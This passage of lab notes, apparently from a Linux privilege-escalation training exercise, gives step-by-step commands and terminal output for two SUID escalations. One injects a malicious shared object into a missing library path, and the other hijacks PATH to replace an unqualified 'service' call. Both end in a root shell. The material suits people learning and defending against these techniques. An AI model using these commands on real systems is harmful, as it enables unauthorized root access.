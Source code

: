 access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
user@debian:~$ mkdir /home/user/.config
user@debian:~$ gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
user@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1# id
uid=0(root) gid=1000(user) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1# exit
exit
[=====================================================================>] 99 %
Done.
user@debian:~$ ^C
user@debian:~$ 
```



Environmental variables
```
/usr/local/bin/suid-env

strings /usr/local/bin/suid-env
```
One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:

```
gcc -o service /home/user/tools/suid/service.c

PATH=.:$PATH /usr/local/bin/suid-env
```
(disregard location, was looking at tools)
```
user@debian:~/tools/privesc-scripts$ /usr/local/bin/suid-env
[....] Starting web server: apache2httpd (pid 1772) already running
. ok 
user@debian:~/tools/privesc-scripts$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
user@debian:~/tools/privesc-scripts$ gcc -o service /home/user/tools/suid/service.c
user@debian:~/tools/privesc-scripts$ PATH=.:$PATH /usr/local/bin/suid-env
root@debian:~/tools/privesc-scripts# 